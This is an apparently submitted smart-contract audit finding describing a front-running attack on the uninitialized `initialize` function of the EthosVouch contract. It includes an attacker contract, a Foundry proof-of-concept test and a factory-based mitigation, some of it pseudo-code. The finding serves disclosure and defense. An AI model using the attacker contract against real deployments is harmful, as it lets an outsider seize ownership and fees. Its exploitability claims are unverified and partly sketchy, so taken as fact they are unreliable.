 Dazzling Pearl Capybara

Medium

# Front-Run Vulnerability in `initialize` Function of EthosVouch Contract Allows Unauthorized Control and Parameter Manipulation

### Summary

The `initialize` function of the **EthosVouch** contract is used to initialize the contract's state and set key parameters. Although it uses the `initializer` modifier to prevent reinitialization, there is still a risk of a **front-run attack**. An attacker could call the `initialize` function before the intended initializer, allowing them to set their own values, take ownership of the contract, and potentially force a redeployment.

### Root Cause

The vulnerability stems from the lack of caller verification. The contract relies solely on the `initializer` modifier to prevent multiple initializations but does not ensure atomicity during deployment. Anyone can call the `initialize` function as long as it's the first call, without any check on the caller's identity.

[ethos/packages/contracts/contracts/EthosVouch.sol:initialize#L259](https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/57c02df7c56f0b18c681a89ebccc28c86c72d8d8/ethos/packages/contracts/contracts/EthosVouch.sol#L270C1-L270C27)
```solidity
function initialize(
    address _owner,
    address _admin,
    address _expectedSigner,
    address _signatureVerifier,
    address _contractAddressManagerAddr,
    address _feeProtocolAddress,
    uint256 _entryProtocolFeeBasisPoints,
    uint256 _entryDonationFeeBasisPoints,
    uint256 _entryVouchersPoolFeeBasisPoints,
    uint256 _exitFeeBasisPoints
) external initializer {
    // Anyone can call this function
    // It will succeed as long as it's the first call
    __accessControl_init(...);
}
```

### Internal pre-conditions

- The contract must be deployed but not yet initialized.
- The `_initialized` variable must be `false`.
- The contract must have sufficient gas to execute initialization.

### External pre-conditions

- Before the normal initialization transaction is executed.
- After the contract has been deployed.
- Before someone else attempts initialization.

### Attack Path

1.**Monitor Deployment**:
The attacker actively monitors for the deployment of the EthosVouch contract. This can be done by tracking events emitted during contract creation or by continuously checking for newly deployed contracts.
```solidity
contract Attacker {
    function monitorDeployment(address target) external {
        // Listen to the deployment event of the EthosVouch contract
    }
}
```

2.**Front-Run Attack**:
After detecting the deployment, the attacker can attempt to front-run the initialization of the contract. Since the initialize function only requires the contract to be deployed (but not yet initialized), the attacker can call initialize on the EthosVouch contract before the legitimate initialization process is executed.

By calling the initialize function, the attacker sets the ownership and administrative roles, and controls critical parameters of the contract, including the fee distribution, signer, and verifier. This allows the attacker to fully control the contract.

```solidity
contract EthosVouchAttacker {
    function attack(address target) external {
        IEthosVouch(target).initialize(
            address(this),  // Attacker becomes the owner
            address(this),  // Attacker becomes the admin
            address(this),  // Attacker controls signer
            address(this),  // Attacker controls signature verifier
            address(this),  // Attacker controls contract manager
            address(this),  // Attacker controls fee receiver
            100,            // Protocol fee rate
            100,            // Donation fee rate
            100,            // Voucher pool fee rate
            100             // Exit fee rate
        );
    }
}
```

### Impact

- The attacker gains full control of the contract and can modify key parameters and fee rates.
- The attacker could manipulate the fee distribution, hijack the collateral system, or block normal users from using the contract, forcing redeployment.

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import {Test} from "forge-std/Test.sol";
import {EthosVouch} from "../contracts/EthosVouch.sol";

contract EthosVouchTest is Test {
    EthosVouch public vouch;
    address public attacker = address(0x1);
    
    function setUp() public {
        // Deploy the contract
        vouch = new EthosVouch();
    }
    
    function testFrontRunInitialize() public {
        // Simulate attacker action
        vm.startPrank(attacker);
        
        // Front-run initialization
        vouch.initialize(
            attacker,    // owner
            attacker,    // admin
            attacker,    // signer
            attacker,    // verifier
            attacker,    // manager
            attacker,    // fee receiver
            100,         // max fee
            100,         // max fee
            100,         // max fee
            100          // max fee
        );
        
        // Verify the attacker's control
        assertEq(vouch.owner(), attacker);
        assertEq(vouch.admin(), attacker);
        
        vm.stopPrank();
    }
}
```

### Mitigation

To mitigate this issue, one solution is to use a **factory contract** that ensures only the deployer of the contract can initialize it. Alternatively, the deployer’s address should be validated to prevent unauthorized deployments and initializations.

```solidity
contract EthosVouchFactory {
    function deployAndInitialize(
        address owner,
        address admin,
        // ... other params
    ) external returns (address) {
        EthosVouch vouch = new EthosVouch();
        vouch.initialize(owner, admin, ...);
        return address(vouch);
    }
}

function initialize(
    address owner,
    // ... other params
) external initializer {
    require(msg.sender == DEPLOYER, "Unauthorized");
    __accessControl_init(...);
}
```